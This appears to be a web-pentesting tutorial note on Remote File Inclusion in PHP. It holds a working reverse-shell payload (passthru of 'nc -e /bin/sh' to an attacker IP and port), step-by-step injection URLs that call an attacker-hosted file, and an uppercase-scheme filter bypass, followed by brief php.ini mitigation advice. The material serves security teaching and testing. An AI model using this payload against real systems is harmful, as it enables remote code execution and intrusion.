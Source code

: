 ```yaml
---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# RFI attack - Remote File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).


## php 

In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion. 

**1.** Create a php file with the remote shell

```bash
nano reverse.txt
```

**2.**  In that php file, craft malicious code

```php
<?php
passthru("nc -e /bin/sh <attacker IP> <attacker port>") 
php ?>

```
**3.** Serve that file from you machine (http_serve).

**4.** Get your machine listening in a port with netcat.

**5.** In the injection point from where you can make a call to a URL, serve your file. For instance:

```
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt

# Sometimes to get php executed on the victim machin (and not the attacker), add an ?
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt?
```

Sometimes there might be some filtering for the payload (which was: 

```
http://<attackerip>/reverse.txt?). 
````

To bypass it:

```
# using uppercase
https:\\VICTIMurlADDRESS/PATH/PATH/page=hTTP://<attackerip>/reverse.txt

# Other bypassing techniques for slashes
```



## Mitigation

In php.ini disallow:

+ allow_url_fopen
+ allow_url_include

User static file inclusion (instead of dynamic file inclusion) by harcoding the files you want to include and not get them using GET or POST methods. 